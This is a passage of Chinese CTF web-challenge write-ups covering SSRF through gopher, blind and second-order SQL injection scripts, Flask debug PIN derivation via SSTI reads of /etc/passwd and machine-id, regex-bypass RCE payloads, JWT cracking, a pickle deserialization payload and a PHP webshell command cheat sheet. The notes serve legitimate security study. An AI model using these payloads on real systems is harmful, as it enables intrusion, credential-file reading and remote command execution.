        /_GET /index.php HTTP/1.1 表示使用 GET 方法请求位于 /index.php 的资源，并且使用 HTTP 1.1 协议版本

    5. gopher协议构造脚本

        ```python
        import urllib.parse

        host = "127.0.0.1:80"
        content = "uname=admin&passwd=admin"
        content_length = len(content)

        test =\
        """POST /index.php HTTP/1.1
        Host: {}
        User-Agent: curl/7.43.0
        Accept: */*
        Content-Type: application/x-www-form-urlencoded
        Content-Length: {}

        {}
        """.format(host,content_length,content)

        tmp = urllib.parse.quote(test) 
        new = tmp.replace("%0A","%0D%0A")
        result = urllib.parse.quote(new) 
        print("gopher://"+host+"/_"+result)
        ```

2. sql时间盲注

    *注：* 这里也可以用**报错注入**

    ```python
    import urllib.parse
    import requests
    import time
    import base64
    url="http://61.147.171.105:57239//use.php?url="
    flag=""
    for pos in range(1,50):
        for i in range(33,127):
            #poc="') union select 1,2,if(1=1,sleep(5),1) # "

            ## 爆库
            # poc="') union select 1,2,if(ascii( substr((database()),"+str(pos)+",1) )="+str(i)+",sleep(2),1) # "

            ## 爆表
            # poc="') union select 1,2,if(ascii( substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),"+str(pos)+",1) )="+str(i)+",sleep(2),1) # "

            ## 爆列
            poc="') union select 1,2,if(ascii( substr((select group_concat(column_name) from information_schema.columns where table_name='flag'),"+str(pos)+",1) )="+str(i)+",sleep(2),1) # "
            
            # flag
            # poc="') union select 1,2,if(ascii( substr((select * from flag),"+str(pos)+",1) )="+str(i)+",sleep(2),1) # "
            
            bs = str(base64.b64encode(poc.encode("utf-8")), "utf-8")
            final_poc="gopher://127.0.0.1:80/_GET%20%2findex.php%20HTTP%2f1.1%250d%250aHost%3A%20localhost%3A80%250d%250aConnection%3A%20close%250d%250aContent-Type%3A%20application%2fx-www-form-urlencoded%250d%250aCookie%3A%20this%5Fis%5Fyour%5Fcookie%3D"+bs+"%3B%250d%250a"
            t1=time.time()
            res=requests.get(url+final_poc)
            t2=time.time()
            if(t2-t1>2):
                flag+=chr(i)
                print(flag)
                break
    print(flag)
    ```

## GYCTF2020 FlaskAPP(Flask 获取debug模式PIN码)

[Flask debug模式下的 PIN 码安全性](https://xz.aliyun.com/t/8092?time__1311=n4%2BxuDgDBADQYiKP40HwbDyiGDkDciiGmpcpoD&alichlgref=https%3A%2F%2Flink.csdn.net%2F%3Ftarget%3Dhttps%253A%252F%252Fxz.aliyun.com%252Ft%252F8092)

1. 题目类型判断 ---> [SSIT](#gyctf2020-flaskapp)
   
   这里主要写一下Flask Debug模式利用PIN码获取shell执行权

2. PIN码获取
   
   PIN 主要由 probably_public_bits 和 private_bits 两个列表变量决定，而这两个列表变量又由如下6个变量决定：

   ```python
   username 启动这个 Flask 的用户
   modname 一般默认 flask.app
   getattr(app, '__name__', getattr(app.__class__, '__name__')) 一般默认 flask.app 为 Flask
   getattr(mod, '__file__', None)为 flask 目录下的一个 app.py 的绝对路径,可在爆错页面看到
   str(uuid.getnode()) 则是网卡 MAC 地址的十进制表达式
   get_machine_id() 系统 id
   ```
   
   `modname` 一般默认 `flask.app`，`getattr(app, '__name__', getattr(app.__class__, '__name__'))`一般默认 flask.app 为 Flask，所以主要获取剩下的4个变量即可。
   
   本题中，首先通过报错就可以得知很多信息，Python3的环境以及
   
   ```python
   modname：flask.app
   getattr(app, '__name__', getattr(app.__class__, '__name__'))：Flask
   getattr(mod, '__file__', None)：/usr/local/lib/python3.7/site-packages/flask/app.py
   # 注意python2中为app.pyc
   ```

   接下来可以通过SSTI去文件读取其他信息，使用jinja2的控制结构语法构造。

   username：`{{x.__init__.__globals__['__builtins__'].open('/etc/passwd').read() }}`

   MAC地址(要转化为十进制)：`{{x.__init__.__globals__['__builtins__'].open('/sys/class/net/eth0/address').read() }}`

   系统id：`{{x.__init__.__globals__['__builtins__'].open('/etc/machine-id').read() }}`

   生成PIN的脚本：

   ```python
    import hashlib
    from itertools import chain
    probably_public_bits = [
        'flaskweb'# username
        'flask.app',# modname
        'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
        '/usr/local/lib/python3.7/site-packages/flask/app.py' # getattr(mod, '__file__', None),
    ]

    private_bits = [
        '231530469832647',# str(uuid.getnode()),  /sys/class/net/eth0/address
        '1408f836b0ca514d796cbf8960e45fa1'# get_machine_id(), /etc/machine-id
    ]

    h = hashlib.md5()
    for bit in chain(probably_public_bits, private_bits):
        if not bit:
            continue
        if isinstance(bit, str):
            bit = bit.encode('utf-8')
        h.update(bit)
    h.update(b'cookiesalt')

    cookie_name = '__wzd' + h.hexdigest()[:20]

    num = None
    if num is None:
        h.update(b'pinsalt')
        num = ('%09d' % int(h.hexdigest(), 16))[:9]

    rv =None
    if rv is None:
        for group_size in 5, 4, 3:
            if len(num) % group_size == 0:
                rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                            for x in range(0, len(num), group_size))
                break
        else:
            rv = num

    print(rv)
   ```

   得到PIN码后，利用python执行系统命令`os.popen('系统命令').read()`获取flag，如：`os.popen('cat /this_is_the_flag.txt').read()`

## preg_match 正则匹配 绕过
### FBCTF2019 RCEService(RCE)

   **PHP利用PCRE回溯次数限制绕过某些安全限制，多行绕过preg_match函数**

   源码(buuoj中没有提供，原竞赛提供了源码)

   ```php
   <?php
   putenv('PATH=/home/rceservice/jail');

   if (isset($_REQUEST['cmd'])) {
   $json = $_REQUEST['cmd'];

   if (!is_string($json)) {
      echo 'Hacking attempt detected<br/><br/>';
   } elseif (preg_match('/^.*(alias|bg|bind|break|builtin|case|cd|command|compgen|complete|continue|declare|dirs|disown|echo|enable|eval|exec|exit|export|fc|fg|getopts|hash|help|history|if|jobs|kill|let|local|logout|popd|printf|pushd|pwd|read|readonly|return|set|shift|shopt|source|suspend|test|times|trap|type|typeset|ulimit|umask|unalias|unset|until|wait|while|[\x00-\x1FA-Z0-9!#-\/;-@\[-`|~\x7F]+).*$/', $json)) {
      echo 'Hacking attempt detected<br/><br/>';
   } else {
      echo 'Attempting to run command:<br/>';
      $cmd = json_decode($json, true)['cmd'];
      if ($cmd !== NULL) {
         system($cmd);
      } else {
         echo 'Invalid input';
      }
      echo '<br/><br/>';
   }
   }
   ?>
   ```

   除了`ls`其他函数都被禁了

- 解法一

   **因为`preg_match`只能匹配第一行，所以这里可以采用多行绕过。此方法针对`preg_match`函数。**

   题目中存在`\x00-\x7f`,会匹配掉一个`%0a`，在payload前后加几个%0a就行了。这种主要针对`%0a`在`{}`外侧。

   因为`putenv('PATH=/home/rceservice/jail');`修改了环境变量，所以只能使用绝对路径使用cat命令，cat命令在`/bin`文件夹下

   Linux命令的位置：`/bin`,`/usr/bin`，默认都是全体用户使用，`/sbin`,`/usr/sbin`,默认root用户使用

   我们使用payload `{%0A"cmd":"ls /home/rceservice/jail"%0A}` （%A是换行）得到回显 ls 一个文件，这也再一次说明当前环境下有 ls命令 没有其它命令。

   使用payload `{%0A"cmd":"ls /home/rceservice"%0A}` 得到回显，flag jail 。也就是说 flag 在flag里。

   使用`{%0A"cmd":"/bin/cat /home/rceservice/flag"%0A}` 得到flag。


   ```url
   ?cmd={%0A"cmd":"ls /home/rceservice"%0A}
   or
   ?cmd=%0A%0A{"cmd":"ls /home/rceservice"}%0A%0A
   ```

- 解法二

   **利用PCRE回溯来绕过 preg_match，这种方法主要针对正则表达式**

   [PCRE回溯](https://www.leavesongs.com/PENETRATION/use-pcre-backtrack-limit-to-bypass-restrict.html)

   1. 由上面的方法知道了，想要得到flag要访问/bin/cat /home/rceservice/flag 。
   2. 根据PCRE回溯的方法解题，需要用POST发送请求，因为GET会因为头太大报错。

   ```html
   414 Request-URI Too Large
   ```

   3. 所以我们使用的脚本如下：

   ```python
   import requests

   payload = '{"cmd":"/bin/cat /home/rceservice/flag ","nayi":"' + "a"*(1000000) + '"}' ##超过一百万，这里写一千万不会出结果。

   res = requests.post("http://b27f0703-fe79-470f-b1fb-f7cfbd8c966b.node3.buuoj.cn/", data={"cmd":payload})
   print(res.text)
   ```

   即可得到flag

### MRCTF2020套娃

- 利用点
    
    正则匹配一般情况下不会匹配换行符(url编码: %0a),因此加了换行符的字符串和没加换行符的字符串在正则看来是一样的

    如果想匹配换行符可以在正则表达式尾部加上`/s`,这里的 s 标记告诉正则表达式引擎将 `.` 包括换行符在内一并匹配。`.`表示匹配任意字符。

1. F12 网页源码

    ```php
    // $_SERVER['QUERY_STRING']：指的是查询的字符串，即地址栏?之后的部分
    $query = $_SERVER['QUERY_STRING'];

    // 这个if判断就是要求查询字符串中不能包含 "_", %5f就是 "_" 的url编码
    if( substr_count($query, '_') !== 0 || substr_count($query, '%5f') != 0 ){
        die('Y0u are So cutE!');
    }

    // 这个if判断要求b_u_p_t 不能为23333，而正则有要求是23333
    if($_GET['b_u_p_t'] !== '23333' && preg_match('/^23333$/', $_GET['b_u_p_t'])){
        echo "you are going to the next ~";
    }
    ```

   1. 第一个if的绕过(两种方法)--php非法传参

        - PHP会将传参中的空格( )、小数点(.)自动替换成下划线
        - 这道题目也可以用 %5F绕过，正则匹配只匹配了小写

    2. 第二个if的绕过--preg_match 正则匹配绕过

        这里利用了`perg_match`只能匹配单行字符，会将换行符后的字符串忽略。`preg_match`没启动`/s`模式（单行匹配模式）时，正则表达式是无法匹配换行符(%0a,\n)的,且会自动忽略末尾的换行符。

        所以可以在23333后面加上换行符的url编码`%0a`就可以绕过。

2. 进入下一个页面后，F12源码发现一段只有`+()[]!`组成的编码，即jsfuck编码，可以在浏览器控制台输入运行一下，提示POST传参`Merak`

    源码

    ```php
    <?php 
    error_reporting(0); 
    include 'takeip.php';
    ini_set('open_basedir','.'); 
    include 'flag.php';

    if(isset($_POST['Merak'])){ 
        highlight_file(__FILE__); 
        die(); 
    } 


    function change($v){ 
        $v = base64_decode($v); 
        $re = ''; 
        for($i=0;$i<strlen($v);$i++){ 
            $re .= chr ( ord ($v[$i]) + $i*2 ); 
        } 
        return $re; 
    }
    echo 'Local access only!'."<br/>";
    $ip = getIp();
    if($ip!='127.0.0.1')
    echo "Sorry,you don't have permission!  Your ip is :".$ip;
    if($ip === '127.0.0.1' && file_get_contents($_GET['2333']) === 'todat is a happy day' ){
    echo "Your REQUEST is:".change($_GET['file']);
    echo file_get_contents(change($_GET['file'])); }
    ?> 
    ```

    这段代码的作用就是，用change函数处理一下传入的`file`参数，我们主要用这个参数读取flag。可以将change方法逆一下。

    还有一个ip判断，(这里就是请求头IP伪造,两种方法,本题要用第二种)

    ```html
    X-Forwarded-For:127.0.0.1
    <!-- 或 -->
    Client-IP:127.0.0.1
    ```

    至于`file_get_contents($_GET['2333']) === 'todat is a happy day'`,伪协议php://或者data://传入即可。

### Zer0pts2020 Can you guess it?(正则匹配绕过+PHP特性)

- 利用点

    正则匹配时，会识别到空字符串(*这里的空字符指的是超过ascii码范围的字符，而非不可打印字符*)，因此可以通过添加空字符的方式绕过题目中对原字符的检查

- 源码

    ```php
    <?php
    include 'config.php'; // FLAG is defined in config.php
    if (preg_match('/config\.php\/*$/i', $_SERVER['PHP_SELF'])) {
    exit("I don't know what you are thinking, but I won't let you read it :)");
    }
    if (isset($_GET['source'])) {
    highlight_file(basename($_SERVER['PHP_SELF']));
    exit();
    }

    $secret = bin2hex(random_bytes(64));
    if (isset($_POST['guess'])) {
    $guess = (string) $_POST['guess'];
    if (hash_equals($secret, $guess)) {
        $message = 'Congratulations! The flag is: ' . FLAG;
    } else {
        $message = 'Wrong.';
    }
    }
    ?>
    ```

- 漏洞利用点查找

    注释指明flag在config.php中，但是如果按照绕过hash_equals的思路来是行不通的，该函数并没有漏洞也没有使用错误。

    所以这道题目的利用点就只剩下显示源码的逻辑部分了，采用`basename`函数截取`$_SERVER['PHP_SELF']`

    记录一下`$_SERVER['PHP_SELF']`、`$_SERVER['SCRIPT_NAME']` 与 `$_SERVER['REQUEST_URI']`的差别：

    ```php
    //网址：https://www.shawroot.cc/php/index.php/test/foo?username=root

    $_SERVER[‘PHP_SELF’] 得到：/php/index.php/test/foo
    $_SERVER[‘SCRIPT_NAME’] 得到：/php/index.php
    $_SERVER[‘REQUEST_URI’] 得到：/php/index.php/test/foo?username=root
    ```

    $_SERVER['PHP_SELF']会获取我们当前的访问路径，并且PHP在根据URI解析到对应文件后会忽略掉URL中多余的部分，即若访问存在的index.php页面，如下两种UR均会访问到。

    ```url
    /index.php
    /index.php/dosent_exist.php
    ```

    basename可以理解为对传入的参数路径截取最后一段作为返回值，但是该函数发现最后一段为不可见字符时会退取上一层的目录，即：

    ```php
    $var1="/config.php/test"
    basename($var1)	=> test
    $var2="/config.php/%ff"
    basename($var2)	=>	config.php
    ```

    要想“highlight_file”这个`config.php`，必须要让`basename($_SERVER['PHP_SELF'])==config.php`。所以此题构造`/index.php/config.php?source`，这样的话，`$_SERVER['PHP_SELF']`就会等于`/index.php/config.php`，经过`basename()`函数后就变成了`config.php`，这里成功绕过。

    ```php
    preg_match('/config\.php\/*$/i', $_SERVER['PHP_SELF']
    ```

    结尾\/*$的意思是出现0或多个“/”然后结束字符串，所以此正则本意是不允许config.php作为$_SERVER[‘PHP_SELF’]的结尾，但我们可以利用空字符串绕过正则：basename()会去掉不可见字符，使用超过ascii码范围的字符就可以绕过

    ```url
    /index.php/config.php/%ff?source
    ```

## WUSTCTF2020 颜值成绩查询(bool盲注)

1. 输入1-4都有结果，输入1+1还有结果，可以断定注入点就在输入框。
2. 也测试了SSTI，发现没有反应，可以排除
3. 题目也提示了查询，所以大概率是sqli。
4. 确定了是bool盲注，判断注入类型
   
   加`'#`,报错,说明不是字符型注入那么就是整型注入

5. 输入`0^1`发现也返回了结果，可以采用异或求解，`if`也可以，没有测试
   
   看网上的wp这道题还过滤了空格,构造payload时要注意

6. 爆破脚本
   
   [sqli_blind.py](./sqli_blind.py)

## CISCN2019 华北赛区 Day1 Web2 ikun(JWT python反序列化)

1. 进来看到提示购买lv6，直接翻页找不到,翻页时发现url里有页面索引,直接脚本跑

    ```python
    url = 'http://4a471f3e-6f7e-46ab-a7b3-0dec29398943.node5.buuoj.cn:81/shop?page='
    for i in range(600):
        urls = url + str(i)
        res = requests.get(urls)
        if 'lv6.png' in res.text:
            print('lv6 in ' + str(i) +' page\n')
            break
    ```

2. lv6在181页，注册账号购买，钱不够，bp抓包，发现有折扣信息，修改折扣
3. 进入一个新的页面`/b1g_m4mber`,提示只能由admin访问，抓包发现请求头里面有JWT(JSON Web Token,用于身份认证)，用`c-jwt-cracker`破解密钥
    ```bash
    ./jwtcrack 密文
    ```

    得到密钥后，需要生成新的jwt，这时可以用brup的JSON Web Token(修改JWT之后，会自动修改抓取数据包中的JWT),将用户名改为admin，放行，成功访问，查看网页源码发现了压缩包

4. 题目一开始也提示了python 和 pickle，即python的反序列化漏洞，
   
   关于pickle

    ```text
    1. 持续化模块：就是让数据持久化保存。

    pickle模块是Python专用的持久化模块，可以持久化包括自定义类在内的各种数据，比较适合Python本身复杂数据的存贮。
    但是持久化后的字串是不可认读的，并且只能用于Python环境，不能用作与其它语言进行数据交换。

    2. pickle 模块的作用

    把 Python 对象直接保存到文件里，而不需要先把它们转化为字符串再保存，也不需要用底层的文件访问操作，直接把它们写入到一个二进制文件里。pickle 模块会创建一个 Python 语言专用的二进制格式，不需要使用者考虑任何文件细节，它会帮你完成读写对象操作。用pickle比你打开文件、转换数据格式并写入这样的操作要节省不少代码行。

    3. 主要方法
    在pickle中dumps()和loads()操作的是bytes类型，而在使用dump()和lload()读写文件时，要使用rb或wb模式，也就是只接收bytes类型的数据。
    dumps(): 写
    loads(): 读
    loads() 和 dumps() 操作对象都是string
    load() 和 dump() 操作对象都是文件
    ```

    漏洞在admin.py文件中。

    ```python
    import tornado.web
    from sshop.base import BaseHandler
    import pickle
    import urllib


    class AdminHandler(BaseHandler):
        @tornado.web.authenticated
        def get(self, *args, **kwargs):
            if self.current_user == "admin":
                return self.render('form.html', res='This is Black Technology!', member=0)
            else:
                return self.render('no_ass.html')

        @tornado.web.authenticated
        def post(self, *args, **kwargs):
            try:
                become = self.get_argument('become')
                p = pickle.loads(urllib.unquote(become))
                return self.render('form.html', res=p, member=1)
            except:
                return self.render('form.html', res='This is Black Technology!', member=0)
    ```

    借用别人的wp：
    
    思路是我们构建一个类，类里面的`__reduce__`魔术方法会在该类被反序列化的时候会被调用,而在`__reduce__`方法里面我们就进行读取flag.txt文件，并将该类序列化之后进行URL编码.

    破解脚本。

    ```python
    import pickle
    import urllib
    import commands
    
    
    class payload(object):
        def __reduce__(self):
            return (commands.getoutput,('cat /flag.txt',))
            # return(commands.getoutput,('ls /'))
            # return (eval, ("open('/flag.txt','r').read()",))
    
    
    a = pickle.dumps(payload())
    a = urllib.quote(a)
    print(a)
    ```

    得到payload后，利用bp修改become的值为payload

    *注意 : 每次发送请求都要将jwt中的username改为admin*

## 红明谷CTF 2021 webshell(php系统命令执行)

1. 源码

    ```php
    <?php
    error_reporting(0);
    highlight_file(__FILE__);
    function check($input){
        if(preg_match("/'| |_|php|;|~|\\^|\\+|eval|{|}/i",$input)){
            // if(preg_match("/'| |_|=|php/",$input)){
            die('hacker!!!');
        }else{
            return $input;
        }
    }

    function waf($input){
    if(is_array($input)){
        foreach($input as $key=>$output){
            $input[$key] = waf($output);
        }
    }else{
        $input = check($input);
    }
    }

    $dir = 'sandbox/' . md5($_SERVER['REMOTE_ADDR']) . '/';
    if(!file_exists($dir)){
        mkdir($dir);
    }
    switch($_GET["action"] ?? "") {
        case 'pwd':
            echo $dir;
            break;
        case 'upload':
            $data = $_GET["data"] ?? "";
            waf($data);
            file_put_contents("$dir" . "index.php", $data);
    }
    ?>
    ```

    重点是这句代码,会将参数中的内容写入文件

    ```php
    file_put_contents("$dir" . "index.php", $data);
    ```

    但是过滤了空格，`'`,`;`,`php`,`eval`,`_`

2. 一开始看到以为是传木马用蚁剑连接，试了好几次没成功，后来才发现不是，其实就是简单的命令执行。`_`被过滤，所以用不了木马

3. 过滤绕过

    ```php
    'php'：导致'<?php ?>'不能用，可以用短标签 ‘<?= ?>’ 绕过

    'eval':可以用反引号(``)替换,php会尝试将反引号中的内容当作系统shell执行

    ' ':空格被过滤，linux系统中可以用'${IFS}'绕过

    像'php','eval'这些被过滤，也可以用'.'连接进行绕过,如'p.hp','e.val'等

    如果一句话木马可用('_'没有被过滤)，assert和eval可以互换，如：
    <?php
    @assert($_GET["cmd"]);
    ?>

    php执行系统命令：
    //shell_exec函数可执行但需要加echo才能显示结果
    shell_exec("ls")

    //system函数可执行并直接显示结果
    system("ls")

    //function exec(命令，以数组形式的保存结果，命令执行的状态码)
    //可执行，但需要加echo才能显示结果;
    //单执行exec的话只会显示结果最后一行，下方两个命令组合执行便可以显示所有结果
    exec("ls",$a)
    print_r($a)

    //passthru函数可执行并直接显示结果
    passthru("ls")

    //popen函数：打开一个指向进程的管道，该进程由派生指定的 command 命令执行而产生。
    //返回一个和 fopen() 所返回的相同的文件指针，只不过它是单向的（只能用于读或写）
    //此指针可以用于 fgets()，fgetss() 和 fwrite()。并且必须用 pclose() 来关闭。
    //若出错，则返回 false。
    popen("ls")
    //popen 用法
    printf(fread(popen("ls%09/","r"),1024))

    proc_open()
    `ls`
    ```

## GWCTF 2019 枯燥的抽奖(伪随机数爆破)

**本题会用到一个爆破工具 php_mt_seed, 用来爆破生成随机数的种子**

[php_mt_seed Document](https://www.openwall.com/php_mt_seed/README)

1. 源码

    ```php
    Hg11vtADEm
    <?php
    #这不是抽奖程序的源代码！不许看！
    header("Content-Type: text/html;charset=utf-8");
    session_start();
    if(!isset($_SESSION['seed'])){
    $_SESSION['seed']=rand(0,999999999);
    }

    mt_srand($_SESSION['seed']);
    $str_long1 = "abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ";
    $str='';
    $len1=20;
    for ( $i = 0; $i < $len1; $i++ ){
        $str.=substr($str_long1, mt_rand(0, strlen($str_long1) - 1), 1);       
    }
    $str_show = substr($str, 0, 10);
    echo "<p id='p1'>".$str_show."</p>";


    if(isset($_POST['num'])){
        if($_POST['num']===$str){x
            echo "<p id=flag>抽奖，就是那么枯燥且无味，给你flag{xxxxxxxxx}</p>";
        }
        else{
            echo "<p id=flag>没抽中哦，再试试吧</p>";
        }
    }
    show_source("check.php"); 

    ```

2. 审计源码可以看到字符串是通过一个随机数生成器生成的，然后查了下这个mt_srand()函数，果然存在漏洞

    **mt_srand()函数**的作用是给随机数发生器播种，播种会初始化随机数生成器。语法为mt_srand(seed)，其seed参数为必须。大多数随机数生成器都需要初始种子。在PHP中，因为自动完成，所以mt_srand()函数的使用是可选的。从 PHP 4.2.0 版开始，seed 参数变为可选项，当该项为空时，会被设为随时数。播种后mt_rand函数就能使用Mersenne Twister算法生成随机整数。

    但是用这个函数时会存在一些问题，每一次调用mt_rand()函数的时候，都会检查一下系统有没有播种,(播种是由mt_srand()函数完成的)，当随机种子生成后，后面生成的随机数都会根据这个随机种子生成。所以同一个种子下随机生成的随机数值是相同的。同时，也解释了我们破解随机种子的可行性。如果每次调用mt_rand()函数都需要生成一个随机种子的话，那根本就没办法破解。

    *所以：大致过程就明了了，我们根据已经给出的部分随机数，利用工具找出seed（种子），然后得到完整的随机数。*

3. 爆破seed

    - 将已知的部分伪随机数转化为php_mt_seed工具可以看懂的数据

    ```php
    <?php
    $source = "abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ";
    $target = 'oBQ5bGllcU';
    for ($i = 0; $i < strlen($target); $i++){
        echo strpos($source, $target[$i])." ".strpos($source, $target[$i])." "."0"." ".strlen($source)-1." ";
    }
    ?>
    ```

    - 爆破seed(用 php_mt_seed)

    ```bash
    xking@xking-Ubuntu:~/Downloads/php_mt_seed-4.0$ ./php_mt_seed 14 14 0 61 37 37 0 61 52 52 0 61 31 31 0 61 1 1 0 61 42 42 0 61 11 11 0 61 11 11 0 61 2 2 0 61 56 56 0 61 
    Pattern: EXACT-FROM-62 EXACT-FROM-62 EXACT-FROM-62 EXACT-FROM-62 EXACT-FROM-62 EXACT-FROM-62 EXACT-FROM-62 EXACT-FROM-62 EXACT-FROM-62 EXACT-FROM-62
    Version: 3.0.7 to 5.2.0
    Found 0, trying 0xfc000000 - 0xffffffff, speed 1177.7 Mseeds/s 
    Version: 5.2.1+
    Found 0, trying 0x00000000 - 0x01ffffff, speed 0.0 Mseeds/s 
    seed = 0x016e370f = 24000271 (PHP 7.1.0+)
    Found 1, trying 0xfe000000 - 0xffffffff, speed 52.1 Mseeds/s 
    Found 1
    ```

    得到seed值 `24000271`

4. 爆破flag

    *这一部要注意上面爆破seed时结果输出中的提示 PHP 7.1.0+,这表示，下面脚本运行环境要符合版本要求，否则是爆不出正确结果的*

    ```php
    <?php
    $seed = 24000271;
    mt_srand($seed);
    $source = "abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ";
    $target = 'oBQ5bGllcU';
    $res = "";
    $len = 20;

    while(true){
        for ($i = 0; $i < $len; $i++) {
            $res .= substr($source, mt_rand(0, strlen($source) - 1), 1);
        }
        $front = substr($res, 0, 10);
        if($front === 'oBQ5bGllcU'){
            break;
        }
    }
    echo $res;
    ```
    将得到的结果输入即可返回flag

## SQLi-二次注入
### RCTF2015-EasySQL(二次注入报错注入)

**注册页面写入payload，在修改密码界面输出结果**

1. 首页显示注册登录，所以首先注册，可以用bp做一下fuzz测试，看一下关键词过滤
2. 注册时发现只要用户名不包含被过滤的关键词都能注册成功，而且可以登录
3. fuzz测试发现`or`,`and`等关键词都被过滤，而且在登陆界面尝试注入也没有结果
4. 正常登录，发现有修改密码页面，但是正常操作没有回显，但是注册的时候如果写的用户名包含特殊符号，在这个页面就会显示报错信息

    这就是二次注入的特征

    二次注入脚本。

    ```python
    import requests

    url = 'http://6407a4c8-5477-4bc2-a1af-bd1b03c751d6.node5.buuoj.cn:81/'
    reg = 'register.php'
    log = 'login.php'
    change = 'changepwd.php'

    pre = 'mochu7"'
    #逆序闭合
    resuf = "')))),1))#"

    #正序闭合
    suf = "'))),1))#"

    s = 'abcdefghijklmnopqrstuvwxyz1234567890'
    s = list(s)

    r = requests.session()

    def register(name):
        data = {
            'username' : name,
            'password' : '123',
            'email' : '123',
        }
        r.post(url=url+reg, data=data)

    def login(name):
        data = {
            'username' : name,
            'password' : '123',
        }
        r.post(url=url+log, data=data)

    def changepwd():
        data = {
            'oldpass' : '',
            'newpass' : '',
        }
        res = r.post(url=url+change, data=data)
        if 'XPATH' in res.text:
            flag = res.text.split('~')
            print(flag[1])
            # print(res.text)

    for i in s:
        #正序
        # paylaod = pre + "||(updatexml(1,concat(0x7e,(select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('" + i + suf
        #逆序
        paylaod = pre + "||(updatexml(1,concat(0x7e,reverse((select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('" + i + resuf
        register(paylaod)
        login(paylaod)
        changepwd()


    #正序payload
    #paylaod = pre + "||(updatexml(1,concat(0x3a,(select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('" + i + "'))),1))#"
    #逆序payload
    #paylaod = pre + "||(updatexml(1,concat(0x3a,reverse((select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('" + i + "')))),1))#"
    ```

### CISCN2019 华北赛区Day1-web5-CyberPunk(PHP伪协议+二次注入+报错注入)

1. 进入首页查看源码发现提示：`<!--?file=?-->`，尝试php伪协议读取文件，发现成功读取，读取源码之后发现对`username`和`phone`两个字段进行了很多过滤，在这两个字段注入不太可能。在修改地址页面发现修改完地址之后会把旧的地址保存下来，所以我们只要将在第一次修改地址时输入SQL报错注入语句，在第二次更新时（随便输），第一次更新的SQL语句会被调用从而引发二次注入。

    ```php
    require_once "config.php";

    if(!empty($_POST["user_name"]) && !empty($_POST["address"]) && !empty($_POST["phone"]))
    {
        $msg = '';
        $pattern = '/select|insert|update|delete|and|or|join|like|regexp|where|union|into|load_file|outfile/i';
        $user_name = $_POST["user_name"];
        $address = addslashes($_POST["address"]);
        $phone = $_POST["phone"];
        if (preg_match($pattern,$user_name) || preg_match($pattern,$phone)){
            $msg = 'no sql inject!';
        }else{
            $sql = "select * from `user` where `user_name`='{$user_name}' and `phone`='{$phone}'";
            $fetch = $db->query($sql);
        }

        if (isset($fetch) && $fetch->num_rows>0){
            $row = $fetch->fetch_assoc();
            $sql = "update `user` set `address`='".$address."', `old_address`='".$row['address']."' where `user_id`=".$row['user_id'];
            $result = $db->query($sql);
            if(!$result) {
                echo 'error';
                print_r($db->error);
                exit;
            }
            $msg = "订单修改成功";
        } else {
            $msg = "未找到订单!";
        }
    }else {
        $msg = "信息不全";
    }
    ```